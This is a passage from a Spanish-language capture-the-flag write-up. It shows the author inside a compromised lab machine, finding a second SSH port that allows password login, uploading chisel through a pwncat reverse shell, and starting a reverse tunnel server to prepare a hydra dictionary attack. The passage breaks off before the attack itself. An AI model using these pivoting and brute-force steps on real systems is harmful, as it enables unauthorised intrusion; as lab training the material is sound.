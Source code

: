 Intentando conectarme con `netcat` vemos una cabecera de SSH.
```console
(remote) killer@lang:/etc/apache2/sites-available$ nc 127.0.0.1 222
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u3
```

Así que ya sabemos que este servicio pertenece al SSH, un poco extraño ya que ya tenemos el puerto 22/TCP que pertenece al SSH y además la misma versión.

Revisando los archivos de configuración de SSH en `/etc/ssh` podemos ver el fichero `sshd_config` que contiene el archivo de configuración del servidor SSH.

Y vemos esta parte del archivo de configuración 
```text
Match LocalPort 22
    #DenyUsers satanas killer
    PasswordAuthentication no

Match LocalPort 222
    AllowUsers satanas
```

Por el puerto 22 no podemos iniciar sesión con contraseña, y en el puerto 222 si que podemos utilizar esta autenticación, y además solo `satanas` puede conectarse en este puerto.

# Reverse Port Forwarding + SSH Dictionary Attack
Como no he encontrado ninguna contraseña y ya me he hecho 4 máquinas de esta plataforma y veo que les gusta mucho la fuerza bruta, vamos con `chisel` a hacer un Port-Forwarding e intentar hacer un ataque por diccionario con `hydra` a este puerto.

Voy a hacer uso de la función `upload` de `pwncat-cs` para subir el binario de `chisel`

```console
(remote) killer@lang:/tmp$
(local) pwncat$ upload /usr/share/chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.3 MB/s • 0:00:00
[15:49:54] uploaded 8.65MiB in 4.11 seconds                                                            upload.py:76
(local) pwncat$
(remote) killer@lang:/tmp$ ls -la
total 8492
drwxrwxrwt 10 root   root      4096 nov 27 15:49 .
drwxr-xr-x 18 root   root      4096 ago 20 17:47 ..
-rw-r--r--  1 killer killer 8654848 nov 27 15:49 chisel
```

En nuestra máquina de atacante vamos a estar en escucha por el puerto 1234.
```console
/usr/share/chisel server -p 1234 --reverse
2024/11/27 15:50:51 server: Reverse tunnelling enabled
2024/11/27 15:50:51 server: Fingerprint wsaui2NmZMK41w9t2VdZf8XFwyAsJI6dK11orR9LmZw=
2024/11/27 15:50:51 server: Listening on http://0.0.0.0:1234
```

